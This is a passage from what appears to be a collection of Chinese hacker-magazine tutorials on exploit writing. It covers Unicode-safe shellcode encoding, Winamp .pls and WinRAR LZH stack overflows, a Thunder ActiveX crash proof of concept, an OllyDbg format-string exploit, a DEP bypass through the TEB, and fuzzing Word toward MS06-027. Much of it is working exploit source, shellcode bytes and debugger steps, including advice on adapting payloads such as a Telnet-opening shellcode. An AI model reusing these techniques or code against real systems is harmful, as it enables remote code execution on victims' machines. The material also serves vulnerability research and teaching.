printf("%d", (sizeof(shellcode1) - 1) * 2);
```

```asm
NOP            // 90
INC ESI        // 46
NOP            // 90
DEC ECX        // 49
JNZ decode     // 75 E0
NOP            // 90
RETN           // C3
NOP            // 90
```

编码前和编码后的 ShellCode 分别如图 2 和图 3 所示。例如编码前第一个字节 \xE9 高 4 位和低 4 位分别是 \xE 和 \x9，加上 0x61 后就是 0x6F(o) 和 0x6A(j)。


- 2）解码头的编写，必须保证转换成 ASCII 后没有出现 0x3F，汇编代码如下。

```asm
__asm {
ADD CX,0x330        // 66 81 C1 30 03
ADD ESI,30          // 83 C6 30
MOV ESI,ESP         // 8B F4
PUSH ESI            // 56
MOV EDI,ESI         // 8B FE
NOP                 // 90
decode:
LODS BYTE PTR DS:[ESI]   // AC
SUB AX,0x61         // 66 2D 61 00
SHL AX,4            // 66 C1 E0 04
NOP                 // 90
MOV DX,AX           // 66 8B D0
NOP                 // 90
INC ESI             // 46
NOP                 // 90
LODS BYTE PTR DS:[ESI]   // AC
NOP                 // 90
SUB AL,0x61         // 2C 61
PUSH ECX            // 51
ADD AL,DL           // 02 C2
POP ECX             // 59
STOS BYTE PTR ES:[EDI]   // AA
}
```

这里有几点需要注意，保持解码头为偶数字节，因为 Unicode 是双字节码，碰到有 0x3F 的情况，在不影响指令的前提下进行等价变换。如上的解码头被转换成 ASCII 后的结果如下。

```c
"\xC4\x58\xA5\xC1\xD6\x5F\xC8\x43\xA5\xC6\xD7\x50\xDB\xB1\x95\xBB"
"\x90\xE6\xEA\xC0\xAC\xA6\xE5\xCC\xBE\xAF\xDB\xA6\xDF\x58\xDA\xF9"
"\x90\xE5\xA8\xBB\x8A\x91\xD0\xB0\xDF\x58\xAE\x74\xBF\xA4\xE0\x41"
```

- 3）测试代码如下，模拟了溢出发生时的情况。

```cpp
unsigned char encoded[] =
"\xC4\x58\xA5\xC1\xD6\x5F\xC8\x43\xA5\xC6\xD7\x50\xDB\xB1\x95\xBB"
"\x90\xE6\xEA\xC0\xAC\xA6\xE5\xCC\xBE\xAF\xDB\xA6\xDF\x58\xDA\xF9"
"\x90\xE5\xA8\xBB\x8A\x91\xD0\xB0\xDF\x58\xAE\x74\xBF\xA4\xE0\x41"
"ojngaaaaaafkgekbdaaaaaaileaanmilhabmkniileaaiiinliihddmlihebohi...
...（后续为大段编码字符串）...";

void main()
{
    WCHAR encshellcode[1024];
    memset(encshellcode,0,2048);
    // 将ShellCode转换成Unicode形式
    MultiByteToWideChar(CP_ACP,0,(LPCSTR)encoded,sizeof(encoded)-1,encshellcode,1024);
    // 模拟溢出发生时 JMP ESP 后 ESP 指向 ShellCode 的情况
    __asm LEA ESP, encshellcode
    __asm XOR ECX,ECX
    __asm JMP ESP
}
```

经过 MultiByteToWideChar 编码转换，ShellCode 仍然成功执行了，如图 4 所示。

## 小结

ShellCode 也是一门学问，平时要注意这方面的学习，以免发生“ShellCode 到用时方恨少”的尴尬局面，特别是在 Office 系列程序的溢出中，经常会出现编码转换的问题。最后，希望本文能给广大黑友带来一点帮助，本人也是菜鸟，如有错误纰漏，欢迎大家指正。


图 4

- 适合读者：入侵爱好者
- 前置知识：汇编语言

## 到底怎样溢出——漏洞原理

文／图 聂金钢

缓冲区溢出是一种很古老很经典的攻击方式，现在还有很大的利用价值。很多技术网站，例如有名的 www.securityfocus.com、www.milw0rm.com，国内的绿盟、安全焦点等都有关于这方面的研究或收集可用的 ShellCode。当我们通过网络或反汇编病毒文件得到缓冲区溢出攻击代码后，如何来分析漏洞的存在位置和原理以提高自己的技术或写出更通用的 ShellCode 呢？本文记录了我对 Winamp 的 pls 文件溢出的分析过程，希望能对大家起到抛砖引玉的作用。

我从 milw0rm 网站上看到了近几天公布的 ShellCode，有个关于 Winamp 的。这个软件也是漏洞不断，当初就有 m3u 文件名溢出漏洞，现在又出了 pls 文件播放列表溢出漏洞，都是和播放列表有关的，刚学溢出，就分析分析提高技术吧。

下载了 Winamp 5.12 和 Perl 编写的利用程序，运行利用程序生成畸形 pls 文件，在 Winamp 中打开，计算器一下就弹出来了，攻击得比较顺利。后来发现此版本的 Winamp 在处理热键时也存在漏洞，按 Ctrl+D 程序会挂掉，我的 SoftIce 就不好使了，这里不是重点，就用 OllyDBG 来分析吧。

## 找准关键位置的方法

根据利用程序找到溢出关键的地方还是比较容易的，在利用程序中可以看到是这样写的：“$shellcode="\x54\x50\x53\x50\x29..."”。现在用 OD 载入 Winamp 并运行，拖入畸形 pls 文件，双击播放，计算器弹出来了，这时我们就可以在内存中搜索攻击代码了。Alt+M 进入 OD 内存映射窗口，Ctrl+B 搜索 Hex:54 50 53 50，我找到的地址是 00133462，如图 1 所示，此时在 OD 中下命令“hw 00133462”也就是写入时的硬件断点。重新载入并运行，播放 pls 文件，OD 断了下来，这里离关键位置就很近了。此时计算器还没有弹出，我们可以按 Ctrl+F9、F8 往下运行，遇到 CALL 就 F8 步过，很快就到了“02006613 CALL in_mp3.02005A60”。这个 CALL 执行后计算器就弹出来了，这里就是关键位置了，记下它的地址，如图 2 所示。


图 1


图 2

## 分析 ShellCode 攻击流程

重新加载并运行，在 02006613 处下断，播放攻击性的 pls 文件，断下后按 F7 进入 CALL，此时在数据窗口中跟随 ESP，刚进入时 ESP 为 00132FDC，其内容为 02006618，也就是此 CALL 的返回地址……单步向下执行完 02005A84 处的 CALL 后，我们跟随的 ESP 存放值就会被覆盖为 0202D961，如图 3 所示。为了有更好的可读性，我用 IDA 分析一下 in_mp3.dll，这里的代码如图 4 所示。


图 3


图 4

现在我们可以明确了，是 strcpy 这个函数在拷贝时没有检查字符串长度，覆盖了返回地址。其原型为 strcpy(char *dest, const char *src)。拷贝前 EAX 指向 00132BDC 的堆栈位置，拷贝后的数据也就从这里开始存放，我们只要精心构造拷贝过去的内容覆盖 00132FDC 处存放的返回地址就可以控制此程序的运行流程了。00132FDC - 00132BDC = 0x400 = 1024，也就是说我们提交的字符串的 1024 长度处即为构造的函数返回地址，这就是溢出程序中“Buffer="\x90x1023"+EIP”的原因了。为什么要覆盖返回地址为 0202D961 呢？Ctrl+G 过去看看吧！原来这是 in_mp3.dll 中的 CALL ESP 的地址……

```asm
jmp="\x61\xD9\x02\x02"
\x83\xEC\x34   ; sub esp,34
\x83\xEC\x70   ; sub esp,70
\xFF\xE4       ; jmp esp
```

00132FDC - 34 - 70 = 132F38，正好指向 ShellCode 的起始位置，这样计算器就被弹出来了。在 ShellCode 结尾处还有两个 CC，对应着 int 3，推测是产生异常进入 SEH，优雅而不动声色地结束程序！

## 打造适用的 ShellCode

网站上下载的 ShellCode 比较温驯，只是弹出计算器来表明自己控制了 Winamp，我们要做的就是如何通过简单修改打造出适合我们自己的攻击代码。这个过程比较简单，应当注意的有三点。

- 一是 Buffer 位置的确定。在缓冲区中，我们所构造的内容大致是这样的 NOP+ShellCode+JMP ESP，用我们自己的 ShellCode 字节数减去演示用的代码字节数，这个差值用来决定缓冲区中 0x90 的多少。
- 二是 ShellCode 字符串的截断问题。跟踪时，我发现自己的开 Telnet 的 ShellCode 并没有成功地执行，在执行 Strcpy(EAX,EDI) 前数据窗口跟随 EDI，发现其内容被截断了，对比即可知道 Winamp 在获取文件名时遇到 0x0D、0x0A 和 0x00 都认为获取完毕，这就需要我们改善 ShellCode 了。当然，网上也可以找到不含这几个字符的 ShellCode。
- 三是 ESP 位置的确定。修改了 ShellCode 后，原来的 $jmp 就不适用了，在 EDI 的数据窗口中向下翻动，找到新的 ShellCode 位置是 00132EC0，00132FDC - 00132EC0 = 0x11C，下面是改后的 $jmp。

```c
$jmp="\x61\xD9\x02\x02"
"\x83\xEC\x34";   // sub esp,34
"\x83\xEC\x78";   // sub esp,78
"\x83\xEC\x70";   // sub esp,70
"\xFF\xE4";       // jmp esp
```


图 5

0x34 + 0x78 + 0x70 = 0x11C，esp 减的数字大于 80 时，生成的汇编代码中就会有字符 0x00，所以就减了三次。OK，现在我们就可以享受溢出的成就了，如图 5 所示。怎么样？编写一个这样的 ShellCode 还算简单吧？如果对溢出很感兴趣的话，那就也找个溢出漏洞来试试吧！

#### 迅雷 5 远程拒绝服务

## 漏洞 0Day 分析


文／图 failwest

近一段时间，除了 QQ 0Day 外，迅雷爆出的 Crash IE 漏洞也比较出名。虽然这个漏洞不好利用，但是抱着学习技术、积攒人品的态度，这里还是在 POC 的基础上给出一些漏洞细节的分析。知其然还要知其所以然，知其所以然后还要知其所以之所以然……正是这种永无止境的探索精神激励着我们不断进步……

该漏洞函数存在于迅雷（5.5.2.252）安装路径下 ComDlls 目录下的 ThunderAgent_005.dll 中，迅雷 5.5.3.264（2006 年 12 月最新版）受影响的 DLL 变成了 ThunderAgent_007.dll，其他版本可能也受影响，这里我们以 ThunderAgent_005.dll 为例进行说明。用 IDA 反汇编，位于 .text:1000124B 和 .text:10001D6B 处的函数就是引起 IE 崩溃的函数。在随文资料中，我给出了漏洞文件、经过初步标注的 IDB 文件以及这两个函数的反汇编代码，大家可以自己研究一下。

安装迅雷，查看版本，查看漏洞文件，查看注册表中 ActiveX 的注册情况等实验环境的准备就不细说了。我们直接点击附件中给出的 POC，其中的 GetTaskInfoStruct 函数调用崩溃示意代码如下所示。

```html
<html>
<head>
<script>
function POC_test_fun()
{
    test.GetTaskInfoStruct(4);
}
</script>
</head>
<OBJECT ID="test" CLASSID="CLSID:{485463B7-8FB2-4B3B-B29B-8B919B0EACCE}"></OBJECT>
<script>javascript:POC_test_fun();</script>
</html>
```

这个 POC 非常简单，就是在网页里 Call 漏洞函数。点击这个 HTML 后会发现 IE 提示加载项出错，然后崩溃了，如图 1 所示。


图 1 漏洞函数使 IE 崩溃

漏洞研究需要动态调试和静态分析相结合，这里以 GetTaskInfoStruct 函数为例，说明一下这样一个函数调用为什么会使 IE 崩溃。以下是 GetTaskInfoStruct 函数的反汇编代码片段。

```asm
.text:10001D6B push ebp
.text:10001D6C mov ebp, esp
...
.text:10001D84 call ds:GetCurrentThreadId
.text:10001D9C call ds:wsprintfA
.text:10001DB4 call ds:CreateFileMappingA
.text:10001DD2 call ds:MapViewOfFile
...
.text:10001DFE call failwest_erro_memcpy
...
.text:10001E22 call failwest_erro_memcpy
...
.text:10001E2B call ds:UnmapViewOfFile
.text:10001E32 call ds:CloseHandle
...
.text:10001E3C pop edi
.text:10001E3D leave
.text:10001E3E retn 8
endp
```

上面的代码中，我给出了 IDA 对 GetTaskInfoStruct 的部分分析结果。由这个函数中的调用可以看出，函数的主要作用是获得任务的属性信息。为什么汇编中看出这个函数有两个参数，而在 POC 的调用中我们只给出了一个参数呢？

在代码片段中，我们可以看出传入的参数实际上被用作表示一块缓冲的地址，应该是一个有效的可读写的内存地址。POC 中给了一个 4，所以在调用 memcpy 函数时对内存位置为 4 的地方进行操作，导致内存错误而使 IE 崩溃。

具体说来就是：首先，.text:10001DFE 处调用的 memcpy 把我们传进的内存地址开始往后的 0x634=1588 字节大小的内容拷进 ESI+0x10 这个地方；然后在 ESI 处写进 1，ESI+0x0C 的地方写进 2；最后，.text:10001E22 处的调用把从 ESI 开始的 1588 个字节拷回参数所指的地方。

如果我们给这个函数送进去一个有效的内存地址，比如在调试的时候看到栈区的 0x00122222 是一片比较安全的地方，把这个当成参数传进去试试会怎样？果然，IE 不再崩溃了，函数也得到了正常的执行。

至于这个漏洞的利用嘛，目前还没有什么好办法，如果你想到什么好的利用方法，一定要不吝赐教啊！

另一个函数 GetInfoStruct 用来获得迅雷本身的信息，如版本号等。它的崩溃原理和这个几乎一样。结合随文资料中的信息和前边的分析，希望大家能够自己动手调试一下这个函数，这里就不再赘述了。

Axis 在发布漏洞的 POC 中说这是一个整数溢出问题。不过根据调试的情况和上面的分析来看，这种说法还不是非常准确。这个漏洞发生的真正原因是没有对异常地址进行处理（对每个送进来的内存地址做验证），这类函数不应该被用户直接访问到。

对于这个漏洞，目前厂商还没有提供补丁或者升级程序。我们建议使用迅雷的用户随时关注厂商主页 `http://www.xunlei.com`，以获取最新版本。

适合读者：溢出爱好者

前置知识：汇编语言、缓冲区溢出基本原理

## 菜鸟版 Exploit 编写指南之三十七
#### OllyDBG Format String 0Day
### 分析与利用

文/图 gyzyl 江苏大学信息安全系&EST


OllyDBG 作为一款 Ring3 下的调试器，凭借优异的性能博得了广大密界爱好者的一致肯定。但就在最近，milw0rm 上公布了一个 OD 0Day 的 POC（OllyDbg v1.10 Local Format String Exploit）……我们先来看一个简单的例子，代码如下。

4198693，这个时候堆栈就被破坏了，栈中的信息就泄露了（比如密码一类的敏感信息，这时候其安全就受到了威胁）……还可以导致往任意内存地址写数据，这也就意味着可以使存在漏洞的程序执行我们提交的任意代码。


图1

OD 这一次出现问题的函数并不是 printf，而是 sprintf……我简单模拟了出现问题的代码，具体如下。

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[])
{
    if (argc != 2)
    {
        printf("输入一个字符串\n");
        return 1;
    }
    printf(argv[1]);
    printf("\n");
    return 0;
}
```

```c
#include <stdio.h>
void fun()
{
    char para[10];
    sprintf(para, "%12uAAAAAAAAAAAAAAAAAAAA");
}

void main()
{
    fun();
}
```

程序很简单，就是打印程序的参数……这里我们省略了后者，当所有参数压栈完毕调用 printf 函数的时候，printf 并不能检查参数的正确性……

这段代码关键之处在于“%12u”表示把显示的无符号整数扩展成 12 位……只要我们恶意调用 OutputDebugString 函数，就可以使 OD 的 EIP 被我们提交的数据覆盖。

但是却没有对内容进行过滤，使得里面的格式串引发了缓冲区溢出。这个漏洞总给人感觉是鸡肋，没什么利用价值，不过用作一种反调试的手段也算可以。可以让 OD 进入死循环。以下是我修改过的用作反调试的 POC 代码，ShellCode 就是简单的跳转指令。


图2


图3

```c
#include <windows.h>
#include <stdio.h>
#define FORMAT_STRING "%.4602d"
#pragma comment(linker, "/ENTRY:WinMain")

char ShellCode[] = "\xEB\xFE";

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    char* pszEvilBuffer;
    ULONG ulEvilBufSize;
    DWORD dwRetAddr = 0x7FFA4512;

    ulEvilBufSize = sizeof(FORMAT_STRING) + sizeof(dwRetAddr) + sizeof(ShellCode);
    pszEvilBuffer = (char*)malloc(ulEvilBufSize);
    memset(pszEvilBuffer, 0x90, ulEvilBufSize);

    int i = 0;
    memcpy(pszEvilBuffer + i, FORMAT_STRING, sizeof(FORMAT_STRING) - 1);
    i += sizeof(FORMAT_STRING) - 1;
    memcpy(pszEvilBuffer + i, &dwRetAddr, sizeof(dwRetAddr));
    i += sizeof(dwRetAddr);
    memcpy(pszEvilBuffer + i, ShellCode, sizeof(ShellCode) - 1);

    OutputDebugString(pszEvilBuffer);
    free(pszEvilBuffer);
    return 0;
}
```

啊，够长吧？

我们可以用 OllyIce 来调试原版的 OD。原版 OD 再运行被调试程序（怎么有点像无间道），简单地跟踪以后，最终定位出问题的代码。由于栈中 0012DA90 保存的返回地址被覆盖，0042E258 处的 RETN 指令将导致 EIP 被控制，如图4所示。在 OD 中给 0012DA8C 下硬断，看究竟是什么地方覆盖了 0012DA90 处的值，结果定位到如下指令将 0012DA90 处的返回地址给覆盖了。

我们用 OD 调试一下看看效果，结果如图5所示。OD 的 CPU 占用率达到 100% 了（我的机子是双核，所以是 50%）。有兴趣的读者朋友还可以修改 ShellCode，不过长度不能超过 255 字节。


图4


图5


从这段代码可以看出来，导致错误的原因很明显：OD 只对 OutputDebugString 输出的长度进行了检查。

本文介绍了针对已发布的 POC 进行改写利用的一些方法和心得，并给了相关实例，希望对感兴趣的朋友能起到抛砖引玉的作用。文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正。衷心祝愿大家猪年快乐，有任何问题欢迎大家到黑防论坛或者我的博客 www.gyzy.org 留言讨论。

---

适合读者：溢出爱好者

前置知识：汇编语言、缓冲区溢出基本原理

## SP2 下面用 TEB 执行 ShellCode

文/图 王炜/ww0830


Windows XP SP2 和 Windows 2003 SP1 系统中都加入了数据执行保护（DEP）技术。只要 CPU 支持 DEP，且在系统上启用，那么程序的堆栈和默认堆都不能执行代码，这样可以防止一般的溢出攻击。

### 不可执行保护

默认情况下，Windows 上 DEP 的默认设置是“仅为基本 Windows 程序和服务启用 DEP”。如果要改变其设置，可以右键点击“我的电脑->属性”，在“系统属性”页中选择“高级”标签，点击“性能”的设置按钮，就可以在“性能选项”里查看“数据执行保护”，如图1所示。我们改选成“为除下列选定程序之外的所有程序和服务启用 DEP”，点击“确定”按钮后重启计算机，就在 Windows XP SP2 上对所有程序开启了 DEP 保护。


图2

在开启了 DEP 保护的情况下，一般的溢出就会报错。比如下面的溢出得到 DOS 窗口的代码。

```c
#include <windows.h>
#include <winbase.h>
#include <stdio.h>
#include <winsock.h>

char name[] =
"\x41\x41\x41\x41"  // name[0]-name[3]
"\x41\x41\x41\x41"  // name[4]-name[7]
"\x41\x41\x41\x41"  // ebp
"\x12\x45\xFA\x7F"
...（ShellCode 与跳转地址示例）...

int main()
{
    LoadLibrary("msvcrt.dll");
    char output[8];
    memcpy(output, name, sizeof(name));
    for (int i=0; i<8; i++)
        printf("\\x%x", output[i]);
    return 0;
}
```


图1

> 如果 CPU 不支持 DEP，会在面板最下方看到“您的计算机处理器不支持基于硬件的 DEP……”一类的提示。

如果想对所有的程序都关闭 DEP 保护，单击“系统->高级->启动和故障恢复”的设置，启动“编辑”，将 boot.ini 文件中的“/NoExecute”选项的值编辑成 AlwaysOff；如果想改为总是开启，则写成 AlwaysOn。默认情况下为“仅为基本 Windows 程序和服务启用 DEP”。

在开启了 DEP 的 Windows XP SP2 下执行就会报错，如图3所示。这是因为 0x7FFA1571 处指向的指令是 `jmp esp`，而溢出后的 `esp` 指向堆栈。在 DEP 开启情况下，堆栈被标为了不可执行，所以企图跳转过去就会出错，从而得不到 CMD 控制台窗口。


图3

那么，加入了堆栈不可执行保护后，栈溢出是不是就走到尽头了呢？当然不是！聪明的黑客们一如既往，继续艺术性地突破各种枷锁和限制。

### 利用 TEB 突破栈不可执行保护执行 ShellCode

其实，这里不是突破了栈不可执行保护，应该是绕过了栈不可执行保护。因为我们并不能让栈变得可执行，而是用其它方法使得溢出后依然能够执行我们的 ShellCode。

思路是将 ShellCode 拷贝到一个可写也可执行的内存位置，然后返回到那个内存位置执行。因为那个内存段不被 DEP 限制，所以可以正常执行 ShellCode。

具体方法是把溢出函数的返回地址覆盖成一个字符串拷贝函数的地址（如 `lstrcpy`），后面跟目标内存地址和 ShellCode 地址作为参数。这样在函数返回时先执行拷贝，再跳到目标地址执行 ShellCode。

那么，把目标内存地址选择到什么地方呢？答案是 TEB。

> **TEB（Thread Environment Block）**：线程环境块。每当创建一个线程时，系统就会为每个线程分配 TEB。

在以前的系统中，TEB 的地址是固定的。第一个 TEB 地址为 `0x7FFDE000`，第二个为 `0x7FFDD000`，依此类推。在 TEB 偏移 `0xC00` 处有 520 字节缓冲用于 ANSI-to-Unicode 转换，因此第一个 TEB 的缓冲地址为 `0x7FFDEC00`。

ShellCode 可以放在堆栈里（即栈中 ShellCode 地址）。整个构造结构如图4所示，因为 ShellCode 地址在最后，所以即使地址带有 0 字节也可使用。

| Shellcode | ebp | lstrcpy 地址 | TEB 地址 | TEB 地址 | Shellcode 地址 |
|---|---|---|---|---|---|

图4

### 测试结果

我在自己的机器上，通过调试知道 ShellCode 的起始地址为 `0x00424A30`，则重新构造出来的代码如下。

```c
// 以下是 ShellCode 开 DOS 窗口
"\x55\x8B\xEC\x33\xC0..."
...
"\x30\x4A\x42\x00"; // shellcode addr
```

将以上代码在堆栈不可执行的机器上测试，成功开启了 DOS 窗口，如图5所示，这样就突破了栈不可执行保护。


图5

这种方法在 Windows 2000 和 XP SP1 下通常会成功；但在 Windows XP SP2 上，TEB 地址不是固定的，每次会动态生成（约 `0x7FFDXC00` 形式），因此若目标拷贝地址未加载，`lstrcpy` 在执行时会失败，造成异常退出。测试结果大概是 3~4 次可能失败一次。

其实还有很多方法可以突破 Windows 下栈不可执行保护，并且能保证每次都成功。至于其它突破方法，下次再继续讨论。

---

适合读者：溢出爱好者

前置知识：汇编语言、缓冲区溢出基本原理

## 菜鸟版 Exploit 编写指南之三十七
#### Fuzzing in Word
### 溢出分析和利用

文/图 gyz（江苏大学信息安全系&EST）


从 2003 年到 2007 年，Office 连续曝出了一系列漏洞。也就是从那时起，人们逐渐将目光从远程服务溢出转向了客户端程序的溢出。现在 milw0rm 上平均每公布的 10 个溢出 POC 代码有 8 个都是客户端程序的溢出，其中甚至不乏杀毒软件这样的“安全产品”。Word 作为 Microsoft Office 系列产品中的主打产品，其安全性自然成了众多安全研究者所关注的焦点……例如对本文所要探究的 MS06-027，微软对其描述只有以下寥寥几句。

> Microsoft 安全公告 MS06-027  
> Microsoft Word 中的漏洞可能允许远程执行代码（917336）  
> Microsoft Word 格式错误的对象指针漏洞 - CVE-2006-2492

这给漏洞研究者重现漏洞带来了很大的难度。本文就以 MS06-027 为例，介绍如何利用手头上的一些资料来构造此类漏洞的 POC，也给挖掘此类漏洞的研究者提供一些思路上的提示。

要想成功利用这个漏洞，我们第一步就是要构造出一个包含 Smarttags 的 Word 文档……Word 默认就会将 Smarttags 保存在 Word 文档里面，如图1、图2所示。


### 踩点

单从微软的描述恐怕永远也构造不出样本，所以还是得依靠搜索引擎来获得关于此漏洞的一些信息……我在绿盟的网站上还是找到了一些关于 06027 的资料，虽然很少，但很关键。

> 2006-06-13 Microsoft Word 畸形对象指针内存破坏漏洞（MS06-027）  
> NSFOCUS ID: 8842  
> 综述：Microsoft Word 打开 Word 文件时，在处理 smarttags 对象指针时存在漏洞，远程攻击者可能利用此漏洞通过诱骗用户打开恶意 DOC 文件，在用户机器上执行任意指令。

从这个公告中，我们可以知道触发这个漏洞的关键就是 smarttags……为了照顾英文不好的兄弟，我就献丑翻译一下，大意就是 Word 能智能识别文档中的一些人名，然后自动弹出一个标签，便于进一步处理。

到此，POC 的构造已经完成了 20%，从现有信息我们仅仅知道 Word 在处理 Smarttags 对象上存在问题，但究竟是什么问题并不明确……这时本文的主题 fuzzing 就开始发挥作用了。

### Fuzz

何为 fuzz？根据笔者肤浅的理解，就是一种黑盒测试的方法。通过给应用程序提交畸形参数来观察程序反应……Word 是一种复合二进制文档，其文档格式比较适合 fuzz。

一开始，我是这样考虑的：既然是 Smarttags 对象畸形指针漏洞，那就应该 fuzz 保存在 Table 流中的 Smarttags 对象。下面是我写的 fuzzing 代码，写得比较粗糙。

```c
for (_DWORD offset = 0x2ab0; offset < 0x3400; offset += 4) {
    // 从0x2ab0开始fuzz，每4字节将文件内容拷贝到ccl中
    memcpy(ccl, content, filesize);

    // 每次修改4字节
    for (int x = 0; x < 4; x++)
        ccl[offset + x] = 0xEE;

    // 写出修改后的文件
    memset(name, 0, 20);
    sprintf(name, "d%d.doc", count);
    hcc1 = CreateFile(name, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
    WriteFile(hcc1, (LPVOID)ccl, filesize, &dwWritten, NULL);
    CloseHandle(hcc1);
    count++;
}
```

第一次 fuzz 生成了 103 个 doc，一个个打开看看，反正不是太多^^！当打开到 103 个的时候，Word 终于崩溃了，如图3所示。


图3

可惜是个内存违规访问，基本是 UnExploitable 那一类的。看来再往下 fuzz 也不是明智的选择，只能扩大 fuzz 的范围了。事实证明了我后来的猜想是正确的。下面 fuzz 的过程我就不再赘述了，直接给出答案：应该 fuzz WordDocument 这个流，从 0x632 开始的四个字节改成 0xEE 后，Word 就会崩溃，如图4和图5所示。


图4


图5

### 尝试利用

呵呵，颇有点“千里之堤，溃于蚁穴”的味道，如此庞大的一个应用程序居然修改了 4 个字节之后就崩溃了。301AC0F9 处的“CALL DWORD PTR DS:[ECX+14]”的内存违规访问导致了 Word 的崩溃。假如我们可以控制 ECX 寄存器的话，那不就可以执行我们的 ShellCode 了吗？这儿从 OD 中看似乎 ECX 寄存器是不可控制的，是一个随机数，为此我也郁闷了很久，后来使用 SoftIce 调试以后才发现 ECX 是可控的。ECX 是通过 EAX 寻址的，SoftIce 下 EAX 指向的是 0x125AA8，D EAX 一下，看看 EAX 指向的内容，如图6所示。


图6

可以发现这时候 0x125AA8 周围的内容都是来自 Word 文档的内容。大家可以对比图7中 Word 文档的内容，0x125AA8 此时是 0x00000000，肯定会引起崩溃。那么怎样去控制 ECX 寄存器呢？我们可以在 0x125AA8 处填充 0x125AA8 这个地址，0x125AA8+0x14=0x125ABC，在“CALL DWORD PTR DS:[ECX+14]”之后，EIP 就跳到了 0x125ABC 所指向的地址，而此时堆栈中的内容是我们可以控制的，如图7所示。


图7

在填充了四个 0x125AA8 之后，EIP 跳回了 00125AA8。由于 00125AA8 是 Nop-Like 指令，所以顺利跳入了我们的 ShellCode，如图8所示。


图8

##### 总结

考虑到这类漏洞的危害性，利用程序我暂时就不公布了，有兴趣的读者可以在样本的基础上自行修改，我想也不是什么难事。这里我可以给大家一些思路上的提示：由于 WordDocument 流中不可能放入大的 ShellCode，也许会破坏 Word 文档的结构，所以只能采取 Egg-Hunt 的方法，就是小 ShellCode 找大 ShellCode，复杂的功能可以放在大 ShellCode 中实现。看到 WinWord.exe 的 CPU 占用率变成了 100%，心中的一块巨石也算落地了。对 MS06-027 的调试前后经历了一个多星期，本文主要介绍了在没有 POC 的情况下如何利用一些已公开漏洞的方法和心得，并给出了相关实例，希望对感兴趣的朋友能起到抛砖引玉的作用。我的博客 http://www.gyzy.org 以后会陆续放出一些微软漏洞的 POC 代码，感兴趣的读者可以关注一下。

文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正。有任何问题来我的博客留言：http://www.gyzy.org。

适合读者：溢出爱好者

前置知识：汇编语言、缓冲区溢出基本原理

本文：菜鸟版 Exploit 编写指南之三十六

#### WinRAR 栈溢出分析和利用

文／图 gyzy［江苏大学信息安全系&EST］

近年来针对客户端的攻击呈现出不断上升的趋势，微软的 Office 系列也曝出了一系列的漏洞，在上期的文章中就给大家介绍了如何在没有 POC 的情况下自己构造出并利用 Word 的畸形指针漏洞。这次要给大家介绍的是 06 年的一个漏洞，WinRAR 在处理 LZH 压缩包的时候存在一个栈溢出，这个漏洞相比今年第 4 期的那个 WinRAR 7z 溢出要好利用。由于有相当一部分用户还是使用旧版本，还是很危险的。虽然网上已经出现了这个漏洞的 POC 代码，但正所谓“授人以鱼，不如授人以渔”，所以只有掌握了在没有 POC 的情况下如何自己构造并利用的技术，以后才能对漏洞利用游刃有余。

## 重现漏洞

第一步还是需要了解这个文件格式，如果连格式都不了解，就更别谈利用了。一个 LZH 压缩包是 Header+Content 的形式，其中 Header 中指定一种压缩方式，Content 就是文件压缩后的内容。而 Header 又是由“基本头+Common Header+Extended Header*n”的形式组成的。LZH 的基本头又是分 Level 的（是不是有点晕，呵呵，感兴趣的读者可以自行阅读格式说明文档，已随文章提供），最简单的 Level 0 头如图 1 所示。


图 1

WinRAR 在处理带目录扩展头的时候存在调用 strcat 没有对字符串长度进行检查的缺陷，从而导致了缓冲区溢出。为了方便构造压缩包，我们先看看头的一些结构。

```c
// LZH Headers
typedef struct _lzhHeader {
    BYTE   BaseHeaderSize;
    BYTE   BaseHeaderCheckSum;
    char   CompressMethod[5];
    DWORD  SkipSize;
    DWORD  OriginalSize;
    WORD   LastModifiedTime;
    WORD   LastModifiedDate;
    BYTE   Reserved;
    BYTE   HeaderLevel;
    BYTE   LengthofFileName;
    WORD   CRC16;
    BYTE   OSID;
    WORD   SizeofNextExtendedHeader;
} LBaseHeader; // level 1

typedef struct _lzhHeader2 {
    BYTE   BaseHeaderSize;
    BYTE   BaseHeaderCheckSum;
    char   CompressMethod[5];
    DWORD  SkipSize;
    DWORD  OriginalSize;
    WORD   LastModifiedTime;
    WORD   LastModifiedDate;
    BYTE   Reserved;
    BYTE   HeaderLevel;
    BYTE   LengthofFileName;
    char   filename[0xff-27];
    WORD   CRC16;
    BYTE   OSID;
    WORD   SizeofNextExtendedHeader;
} LBaseHeader2; // level 1

typedef struct _commonheader {
    BYTE   ExHeaderId; // 0x00
    WORD   CRCHeader;
    WORD   SizeofNextExtendedHeader;
} CommHeader;

typedef struct _filenameheader {
    BYTE   ExHeaderId; // 0x01
    char   filename[255];
    WORD   SizeofNextExtendedHeader;
} FileHeader;

typedef struct _directoryheader {
    BYTE   ExHeaderId; // 0x02
    char*  p = (char*)Directory[1020]; // 0x3FF=1023
    WORD   SizeofNextExtendedHeader;
} DirHeader;

typedef struct _MSDOSHEADER{
    BYTE ExHeaderId; //0x40
    WORD FileAttr;
    WORD SizeofNextExtendedHeader;
} DosHeader;
```

```c
// 这次的头大小要调整
part2.BaseHeaderCheckSum = 0x2A;
// 校验和也有微调
strcpy(part2.CompressMethod, "-lh0-");
// 不进行压缩
part2.SkipSize = 0x17;
part2.OriginalSize = (DWORD)strlen("RAR");
...
part2.SizeofNextExtendedHeader = 0x3FF; // 0x3FF = 1023

DirHeader dir2;
dir2.ExHeaderId = 0x02;
memset(dir2.Directory, 0x90, 1020);
...
CommHeader ch2;
ch2.ExHeaderId = 0x00;
ch2.CRCHeader = 0xEC89;
```

为了方便说明，本文直接给出 LZH 栈溢出漏洞触发所需要构造的头。实际上我也是探索了很久才触发了这个漏洞，而且可能触发的方式也不止这一种，有兴趣的读者可以自行探索。需要构造的头的结构为 `LBaseHeader+DirHeader+DosHeader+CommHeader+LBaseHeader2+DirHeader+CommHeader+Content`，将上面的数据结构对照格式资料全部写出来，一个可以触发漏洞的压缩包就构造完成了。其中填充 Header 部分的代码如下。

```c
LBaseHeader vul;
vul.BaseHeaderSize = 0x19;
vul.BaseHeaderCheckSum = 0x2A;
strcpy(vul.CompressMethod, "-lhd-");
vul.SkipSize = 0x17;
...
DirHeader dir;
dir.ExHeaderId = 0x02;
for (int i=0; i<1020; i++)
